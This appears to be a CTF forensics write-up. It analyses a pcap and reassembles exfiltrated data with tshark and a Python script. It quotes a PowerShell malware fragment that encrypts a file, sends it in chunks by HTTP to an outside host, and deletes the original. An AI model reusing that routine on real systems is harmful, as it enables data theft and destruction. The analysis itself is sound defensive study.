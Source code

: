 ```
    $base64Encoded = Encrypt-File $filePath $key $IV
    $base64Encoded = $base64Encoded[2]
    $chunkSize = 1024
    $totalChunks = [math]::Ceiling($base64Encoded.Length / $chunkSize)
    $baseUrl = 'http://10.21.69.4:8081'

    for ($i = 0; $i -lt $totalChunks; $i++) {
        $startIndex = $i * $chunkSize; $length = [math]::Min($chunkSize, $base64Encoded.Length - $startIndex)
        $chunk = $base64Encoded.Substring($startIndex, $length)
        $chunkUrlEncoded = [System.Net.WebUtility]::UrlEncode($chunk)
        $fullUrl = "${baseUrl}?vBRqSiWY$i=$chunkUrlEncoded"
    Write-Output $fullUrl
        $response = Invoke-RestMethod -Uri $fullUrl -Method Get
    }

    Remove-Item -Path $filePath
}
```

Its encrypt data using randomized key and IV with seed taken from the registry, send it to the baseUrl with that we can trace from the pcap file.

The data that was sent is splitted into 1024 bytes, so you need to combine it, there are pattern in the parameter here `?vBRqSiWY$i`, with i as index.

`tshark -r .\needsleeppls.pcap -Y '((ip.src == 10.21.69.8) && (_ws.col.protocol == "HTTP")) && (_ws.col.info contains "vBRqSiWY")' -T fields -e _ws.col.info | Out-File output.txt`

Script to tidy up the ct (credit to 53buahapel)
``` # tshark -r .\needsleeppls.pcap -Y '((ip.src == 10.21.69.8) && (_ws.col.protocol == "HTTP")) && (_ws.col.info contains "vBRqSiWY")' -T fields -e _ws.col.info | Out-File output1.txt -Encoding utf8

file = open('output1.txt', 'r').readlines()

# uncomment ini kalo tshark nya di windows encoding issue :sob:
file[0] = file[0][3:]

data = []

pattern = []
for i in range(0, len(file)):
    chunk_num = file[i].split('=')[0][14:]
    data.append(file[i].split('=')[1].split(" ")[0])
    if chunk_num == '0':
        pattern.append(i)

pattern.append(len(file))

patterns = []
for i in range(0, len(pattern) - 1):
    patterns.append((pattern[i], pattern[i + 1]))

result = []
for i in patterns:
    tmp = ""
    for j in range(i[0], i[1]):
        tmp += data[j]
    result.append(tmp)

for i in range(len(result)):
    open('result' + str(i) + '.txt', 'w').write(result[i])
``` 
Pcap containing encrypted packet:
``` ((ip.src == 10.21.69.8) && (_ws.col.protocol == "HTTP")) && (_ws.col.info contains "?vBRqSiWY")```
![Screenshot 2024-10-27 103125](https://hackmd.io/_uploads/rJCoLFhl1l.png)
```